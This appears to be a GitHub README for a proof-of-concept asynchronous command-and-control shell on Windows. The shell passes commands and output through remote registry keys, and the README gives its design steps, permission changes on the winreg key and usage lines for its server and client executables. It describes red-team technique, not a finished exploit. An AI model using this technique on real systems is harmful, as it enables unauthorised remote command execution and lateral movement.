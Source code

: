# Everything Is A Shell... An asyncrounous shell at least...

## Disclaimer
The shells are all Proof-of-Concept and have only been tested in my lab. They are made to test the if the shells actually work and nothing else. Enjoy :)

## Concept for this repository
This repository is made to explore more untraditional ways for establishing command and control (c2) on Microsoft Windows systems. The shells in this repository are asynchronous just like Cobalt Strikes shells: Asyncronous. This means that the client and server will not communicate at all times like a standard netcat/meterpreter shell. Instead, the client will check-in for any new commands from the server at a given interval (sleep timer). If a command is found, the client will execute it, and post the result back to the server. The checkin-interval is a sleep timer just like in Cobalt Strike. 

At this moment, the repository only has a C2 using Windows Registry keys, but I hope to add more in the future. 

## C2 using Windows registry keys

### Short description: 
This reverse shell is based on Windows Registry keys. Windows allows for specific users to read, write and/or delete registry keys on remote systems using the WinReg Protocol (MS-RRP), which is build on top of the RPC protocol: (https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78). Using custom code, it is possible to create a client-server-relationsship by having certain registry keys located on the server that the client can interact with.  

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the user trying to connect/read/write to the remote registry needs to have the correct permissions.

**Limitations:** 
Since the traffic is based on RPC, it should only be suitable for lateral movement on local networks, however I have not tested it over the internet. 

### How it works:
1. When the server starts, the Remote Registry Service is enabled. 
2. The registry key HKEY_LOCAL_MACHINE\Software\RegistryC2\<user-defined name> is created along with the following registry values: cmd, output & sleep. 
3. Permissions are then set for the user "Everyone" on the newly created registry key and, importantly, the registry key: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg. This ensures that the client can authenticate to the server and has access to the relevant registry values. On exiting the server, the permissions are removed again. 
4. The client will then check for the value at "sleep" to determine how often to check it. 
5. The client checks the "cmd" value at the server, executes it and writes the result to the output value on the server. 
6. While running, the server will look for new updates to the "output" value and prints it back to the attacker.

### Usage:
**Setup the server (listener):**
``` 
RegC2Server.exe <Unique Registry key name to use>
RegC2Server.exe dc01
```
**Client-side:**
```
RegC2Client.exe <host> <Registry name to use>
RegC2Client.exe dc01 ws01
```

**Since this is a POC, only the following commands have been implemented:**
```
>help
sleep <int>      Set the sleep time to the value of int
cmd <cmd>        cmd to execute
exit             Exit the application gracefully
```


### Screenshot:


Win32 apis 

Wireshark traffic

intro to shell, usage. 
